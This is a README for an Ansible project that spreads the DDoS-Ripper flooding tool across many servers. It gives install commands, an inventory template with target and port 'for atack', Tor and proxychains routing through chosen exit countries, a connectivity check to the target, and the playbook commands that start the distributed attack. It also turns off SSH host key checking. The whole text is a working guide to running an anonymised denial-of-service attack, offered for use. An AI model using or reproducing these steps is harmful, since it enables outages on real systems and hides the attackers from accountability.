 **Usage:**

# 1. Install python3 and Ansible
```
sudo apt install python3 python3-pip
sudo -H pip3 install --upgrade pip
pip3 install ansible==2.9.7
```

Create ansible config file:
```
mkdir -p /etc/ansible
vim /etc/ansible/ansible.cfg

$ cat /etc/ansible/ansible.cfg
[defaults]
host_key_checking = False
callback_whitelist = profile_tasks
timeout = 300
command_warnings = False
[inventory]
[privilege_escalation]
[paramiko_connection]
[ssh_connection]
ssh_args = -C -o ControlMaster=auto -o ControlPersist=600s -o UserKnownHostsFile=/dev/null
control_path = /tmp/ansible-ssh-%%h-%%p-%%r
pipelining = True
[persistent_connection]
connect_timeout = 300
[accelerate]
[selinux]
[colors]
[diff]
```

Clone git repo:
```
mkdir -p /opt/git
cd /opt/git
git clone https://github.com/deadmopozz/ddos-ripper-ansible.git
```

# 2. Prepare inventory /opt/git/ddos-ripper-ansible/inventory/hosts:

- add your hosts and vars as follow:
```
# Add hosts to this group
[all]
kozak1      ansible_host=192.168.0.2
kozak2      ansible_host=192.168.0.3
kozak3      ansible_host=192.168.0.4
kozak4      ansible_host=192.168.0.5


[all:vars]
# Default soft vars
git_repo=https://github.com/palahsu/DDoS-Ripper.git
git_dest=/tmp/ddos-ripper
soft=['tor', 'tor-geoipdb', 'proxychains', 'geoip-bin', 'python3', 'python3-pip']

# Ansible vars
ansible_ssh_private_key_file="/path/to/your/ssh_key" # !!! Configure path to your ssh key
ansible_user="username_with_sudo_permissions" # !!! Configure username with sudo permissions

# Tor vars
ExitNodes='ExitNodes {ru}' # Choose you exit nodes for tor proxy, syntax:  ExitNodes {ru},{us}

# Systemd unit vars
MemoryHigh=450M # Memory soft limit for systemd unit
MemoryMax=550M # Memory hard limit for systemd unit, unit will fail in case it will use more memory then configured value
CPUQuota=85% # CPU limit for unit

# Target vars
target=127.0.0.1 # !!! configure target for atack, it could be IP address or DNS name 
port=443 # !!! Configure port for atack
time=10000 

[group1]
kozak1
kozak2

[group2]
kozak3
kozak4
```

# 3. Before the atack you should check the connection to target (torsocks telnet [target] [port]):
If you see the output below, then the atack will be successful
```
# torsocks telnet google.com 443
Trying 142.250.217.110...
Connected to 142.250.217.110.
Escape character is '^]'.
```

If the output will be like this:
```
# torsocks telnet google.com 443
Trying 142.250.217.110...
```
You should restart tor "systemctl restart tor" and try again.
If it doesn't help, try to change ExitNode to another country, and try again
If nothing helps - change the target

# 4. Run installation playbook and start the attack:

## You must have the same username and password or ssh key for each server
## After playbook run has finished - attack has started, you can check logs /var/log/syslog for details
## If you want to change target you need to change the variables (Target vars) in /opt/git/ddos-ripper-ansible/inventory/hosts file and rerun the playbook

## - If you use username and password for ssh authentication (username should be configured in inventory file /opt/git/ddos-ripper-ansible/inventory/hosts):
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible-playbook -i ../../inventory/hosts initial-setup.yml -b -kK 
```

## - If you use ssh key for ssh authentication (username and path to ssh key file should be configured in inventory file /opt/git/ddos-ripper-ansible/inventory/hosts):
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible-playbook -i ../../inventory/hosts initial-setup.yml -b 
```


Useful commands:
```
Check IP:
ansible all -i ../../inventory/hosts -b -m shell -a "torsocks curl -s ifconfig.me"
Check Coutry:
ansible all -i ../../inventory/hosts -b -m shell -a "geoiplookup $(torsocks curl -s ifconfig.me)"
```